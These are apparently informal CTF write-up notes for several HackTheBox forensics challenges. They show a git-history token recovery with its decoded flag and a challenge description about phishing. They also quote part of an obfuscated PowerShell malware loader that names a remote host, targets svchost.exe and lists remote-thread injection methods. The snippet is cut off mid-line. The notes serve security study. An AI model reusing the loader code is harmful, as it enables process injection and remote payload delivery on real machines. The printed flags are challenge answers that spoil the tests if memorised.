 # illumination

looking inside bot.js file we can see that

`client.login(Buffer.from(config.token, 'base64').toString('ascii')) //Login with secret token`

so token should be taken from config.json howevere

```
{

	"token": "Replace me with token when in use! Security Risk!",
	"prefix": "~",
	"lightNum": "1337",
	"username": "UmVkIEhlcnJpbmcsIHJlYWQgdGhlIEpTIGNhcmVmdWxseQ==",
	"host": "127.0.0.1"

}
```

but we see that we have a hidden zip folder

and a file commit edits

`You are currently splitting a commit while rebasing branch 'master' on 'ddc606f'.
#0`

can we get the commit ddc606f ?

so we can use git checkout ddc606f

```

 Directory of C:\Users\vipla\Downloads\Illumination

10-07-2022  08:54    <DIR>          .
10-07-2022  08:54    <DIR>          ..
31-05-2019  03:10    <DIR>          Illumination.JS
               0 File(s)              0 bytes
               3 Dir(s)  136,622,346,240 bytes free

C:\Users\vipla\Downloads\Illumination>cd Illumination.JS

C:\Users\vipla\Downloads\Illumination\Illumination.JS>dir
 Volume in drive C is Windows
 Volume Serial Number is 0EDF-FD28

 Directory of C:\Users\vipla\Downloads\Illumination\Illumination.JS

31-05-2019  03:10    <DIR>          .
31-05-2019  03:10    <DIR>          ..
31-05-2019  03:10             2,635 bot.js
31-05-2019  03:10               199 config.json
               2 File(s)          2,834 bytes
               2 Dir(s)  136,622,346,240 bytes free

C:\Users\vipla\Downloads\Illumination\Illumination.JS>git checkout ddc606f
Note: switching to 'ddc606f'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at ddc606f Added some more comments for the lovely contributors! Thanks for helping out!

C:\Users\vipla\Downloads\Illumination\Illumination.JS>dir
 Volume in drive C is Windows
 Volume Serial Number is 0EDF-FD28

 Directory of C:\Users\vipla\Downloads\Illumination\Illumination.JS

10-07-2022  09:02    <DIR>          .
10-07-2022  09:02    <DIR>          ..
10-07-2022  09:02             2,616 bot.js
10-07-2022  09:02               194 config.json
               2 File(s)          2,810 bytes
               2 Dir(s)  136,622,075,904 bytes free

C:\Users\vipla\Downloads\Illumination\Illumination.JS>type config.json
{

        "token": "SFRCe3YzcnNpMG5fYzBudHIwbF9hbV9JX3JpZ2h0P30=",
        "prefix": "~",
        "lightNum": "1337",
        "username": "UmVkIEhlcnJpbmcsIHJlYWQgdGhlIEpTIGNhcmVmdWxseQ==",
        "host": "127.0.0.1"

```

looks like base64 encoded

and we get the flag

`HTB{v3rsi0n_c0ntr0l_am_I_right?}`

# Diagnostic

Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.

# Red Failure

https://blog.ericturner.it/2022/03/02/hackthebox-forensics-challenge-red-failure/

http request 

```
  sV  ("{0}{1}" -f'Y','uE51') ([typE]("{5}{0}{2}{3}{1}{4}"-f 'STeM','EcTIOn.aS','.REF','L','SemblY','Sy'));  ${a} = ("{0}{1}{2}{3}{4}" -f 'cu','rr','en','tth','read')
${B} = ("{1}{0}{3}{2}" -f '.182.1','147','89','72.1')
${C} = 80
${D} = ("{2}{0}{1}" -f '.dl','l','user32')
${E} = ("{1}{0}" -f 'tVI0','9')
${f} = (('z6'+'4&Rx27Z{0}B%'+'7'+'3u'+'p')  -F[cHar]36)
${g} = ((("{8}{5}{3}{1}{2}{0}{7}{4}{6}"-f '2','owsf3h','System3','d','svcho','Win','st.exe','f3h','C:f3h'))."r`EPlAcE"('f3h',[StRINg][ChaR]92))
${h} = ("{0}{1}"-f 'notepa','d')
${I} = ("{1}{0}"-f'xplorer','e')
${j} = ("{1}{0}{2}" -f'_','msvcp','win.dll')
${k} = ("{0}{1}" -f 'Tru','e')
${l} = ("{1}{0}" -f'rue','T')

${Me`Th`ODS} = @(("{1}{0}{2}{3}"-f'ot','rem','et','hread'), ("{2}{0}{1}{3}" -f'mo','tethre','re','addll'), ("{4}{2}{1}{3}{0}" -f'view','hr','otet','ead','rem'), ("{1}{3}{2}{4}{0}"-f 'ed','rem','e','ot','threadsuspend'))
if (${m`E`ThOdS}.("{0}{1}{2}"-f'C','ontain','s').Invoke(${A})) {
    ${h} = (&("{1}{0}{2}{3}" -f'tart
```

104.208.16.94	onedsblobprdcus16.centralus.cloudapp.azure.com

# Siezed

https://ctftime.org/writeup/33938

# persistence

https://ctftime.org/writeup/33938




